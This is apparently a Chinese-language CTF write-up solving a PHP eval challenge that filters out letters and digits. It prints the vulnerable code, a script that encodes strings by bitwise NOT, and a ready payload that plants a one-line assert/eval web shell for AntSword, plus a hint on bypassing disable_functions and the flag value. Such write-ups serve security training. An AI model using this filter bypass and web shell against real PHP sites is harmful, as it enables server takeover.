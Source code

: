 ```yaml
---
Author: SuperJason
Date: 2020-1-7
---
```


## flag
`flag{7d72d4e0-55f5-41c0-8e78-e02eab0679f9}`

## 思路

1. 打开页面，分析源码，所有字母和数字被过滤。
```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```
2. 采用~对cmd按位取反，以phpinfo为例。
- `php -r "echo urlencode(~'phpinfo');"`得到`%8F%97%8F%96%91%99%90`
  ![](../images/jk-rce-1.png)
3. 对一句话木马取反url编码，取反代码如下。用AntSword连接载荷`code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%8C%97%9A%93%93%DD%A2%D6%D6);`
```php
<?php
$a='(eval($_POST["shell"]))';# eval($_POST["shell"]) also OK
echo urlencode(~$a);
echo "\n";
$b="assert";
echo urlencode(~$b);
?>
```
4. /flag文件没有flag，执行/readflag，得到flag。
   ![](../images/jk-rce-2.png)

## 总结
在CMD字符被过滤时，可以用~取反urlencode绕过限制。用AntSword连接一句话木马时，可以用插件市场bypass插件bypass disable_functions